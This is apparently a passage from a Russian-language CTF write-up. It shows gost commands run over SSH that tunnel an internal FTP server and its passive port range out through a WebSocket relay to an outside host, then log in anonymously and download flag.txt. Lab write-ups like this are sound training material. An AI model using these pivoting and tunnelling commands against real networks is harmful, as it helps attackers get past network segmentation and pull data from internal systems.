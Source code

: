 пробрасываем основной порт
```
ssh user@10.10.0.32 -p 2222 -- -L rtcp://:8888/10.152.152.11:21 -F 
relay+wss://100.100.2.252:9876
```
где,
-L rtcp://:8888/10.152.152.11:21 - слушает локальный порт 8888. Всё, что придёт на этот порт — пересылать на FTP-сервер 10.152.152.11:21
То есть, всё что подключается к localhost:8888, gost будет перекидывать на 10.152.152.11:21.
-F relay+wss://100.100.2.252:9876 - пересылает трафик наружу через веб сокет на 100.100.2.252:9876

Необходимо для работы с файлами через ftp
```
ssh -p 2222 user@10.10.0.32 -- -L rtcp://:60000-65535/10.152.152.11:60000-65535 -F relay+wss://100.100.2.252:9876 
```
где,
-L rtcp://:60000-65535/10.152.152.11:60000-65535 — локально слушать все порты от 60000 до 65535.
10.152.152.11:60000-65535 — каждой локальной паре портов сопоставляется тот же порт на хосте 10.152.152.11
пришёл клиент на localhost:60001 -> gost туннелирует его на 10.152.152.11:60001, на localhost:61000 → в 10.152.152.11:61000 и т.д.

На локальной машине запускаем
```
./gost -D -L relay+wss://:9876?bind=true&dst=:8888
```
где,
gost -L relay+wss://:9876?bind=true&dst=:8888 
Этот gost работает как узел-посредник — принимает WebSocket-соединения на 9876, и всё что пришло, пробрасывает на свой локальный:8888

Отправляем запрос на ftp и забираем флаг
```
ftp 127.0.0.1 8888
anonymous

get flag.txt
```